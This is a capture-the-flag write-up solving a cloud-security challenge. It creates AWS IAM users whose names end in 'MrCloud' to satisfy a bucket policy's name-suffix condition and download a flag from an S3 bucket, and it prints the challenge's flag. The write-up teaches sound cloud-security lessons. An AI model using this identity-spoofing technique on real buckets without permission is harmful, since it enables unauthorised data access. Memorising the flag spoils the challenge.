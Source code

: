 
## [Cloud Security] Iam Mr.Cow or Mr.Cloud

```
Iam Mr. Cow or Mr. Cloud?

- Author: Mr.Cow
- 498 Points (9 Solves)
- ★★★★


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.
```


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.

---


## Hints:
1. PS: You’ll want your own AWS playground for this—signing up for a free account (no charges for basic CLI calls) is enough. Once you’re there, remember that aws s3api get-bucket-policy is often the first polite knock on a guarded door.

2. The vault responds to IAM principals whose ARN names end in MrCow or MrCloud; tailor your profile suffix and each guardian reveals their part.

---

# Observations:

When downloading the zip, we are greeted with a index.html file. Opening it in a browser, shows a simple webpage with an SVG image.


![image](/cuhk25ctf/iam_mrcow_or_mrcloud/cowcloud.svg)

[index.html](/cuhk25ctf/iam_mrcow_or_mrcloud/index.html)

Aside from that, the title of this challenge starts with IAM, which is a service in AWS for Identity and Access Management. This hints that we might be dealing with access permissions.

---

# Solution:

## Step 1: Inspection

The SVG image has s3://assets/ written on it. This should be referring to the S3 bucket of AWS.

Inspecting the page source, we see that the <img> tag has a src attribute with the value of <img src=[https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg](https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg) />.

The URL is pointing to an S3 bucket named mr-cow-or-mr-cloud-secret-20250916-a1 in the us-east-1 region.

## Step 2: Accessing the S3 Bucket

We can first attempt to publicly access this file:

```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg"
```

From the results, we can see we can publicly access it.

```
<?xml version="1.0" encoding="UTF-8"?>
<svg width="640" height="360" viewBox="0 0 640 360" xmlns="http://www.w3.org/2000/svg">
  <defs>
    ... (etc) ... 
```

We now try accessing other files such as flag.txt:
```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/flag.txt"
```

We get an Access Denied error. Rip :(
```
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message><RequestId>N94ZHM5K3BDNM09Q</RequestId><HostId>93pEPa99upHuWWYa6sTij+oR/z0Lwq1DDnCyWyKTnKwshx1g+6TyjuN8nPi9V31h8g9UNqWYG8o=</HostId></Error>
```

This means other files require permissions to access.

## Step 3: Understanding the Bucket Policy
Since the hints suggest we need an IAM profile of our own, we can make an account on AWS and create two profiles with the suffix of MrCow or MrCloud.

Any IAM profile name is fine, as long as it ends with MrCow and MrCloud respectively.

For my case, I used TestMrCow and TestMrCloud.


```sh
# Configure TestMrCow profile
aws configure set aws_access_key_id <redacted> --profile TestMrCow
aws configure set aws_secret_access_key <redacted> --profile TestMrCow
aws configure set region us-east-1 --profile TestMrCow

# Configure TestMrCloud profile
aws configure set aws_access_key_id <redacted> --profile TestMrCloud
aws configure set aws_secret_access_key <redacted> --profile TestMrCloud
aws configure set region us-east-1 --profile TestMrCloud
```

To confirm that we are signed in:

```sh
aws sts get-caller-identity --profile TestMrCow
aws sts get-caller-identity --profile TestMrCloud
```

```
{
    "UserId": "AIDATJS2C3YDDIAQO4SOC",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCow"     
}
{
    "UserId": "AIDATJS2C3YDJJ6L2GSSN",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCloud"   
}
```

Now, let's test the access permissions of both profiles.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCow
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We get Access Denied.

Now, let's try the other profile.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCloud
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We also get Access Denied.

The hint said we should try to get the bucket policy to understand the access rules.

```sh
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCow
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCloud
```

```
An error occurred (AccessDenied) when calling the GetBucketPolicy operation: Access Denied
An error occurred (MethodNotAllowed) when calling the GetBucketPolicy operation: The specified method is not allowed against this resource.
```

Weird! For the TestMrCow profile, we get Access Denied, but for the TestMrCloud profile, we get MethodNotAllowed.

This means that the bucket policy is denying access to TestMrCow, but allowing TestMrCloud to access it.

Let's try to access the objects directly instead of listing them.

```sh
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCow
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCloud
```

```
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
Completed 42 Bytes/42 Bytes (43 Bytes/s) with 1 file(s) redownload: s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt to ./flag.txt
```

Oh! We managed to download the flag.txt file!

```
cuhk25ctf{m00n_m45k5_h1d3_th3_cl0ud_g4t3s}
```

*Fun fact, this challenge is solvable by using Github Copilot Agent Mode XD*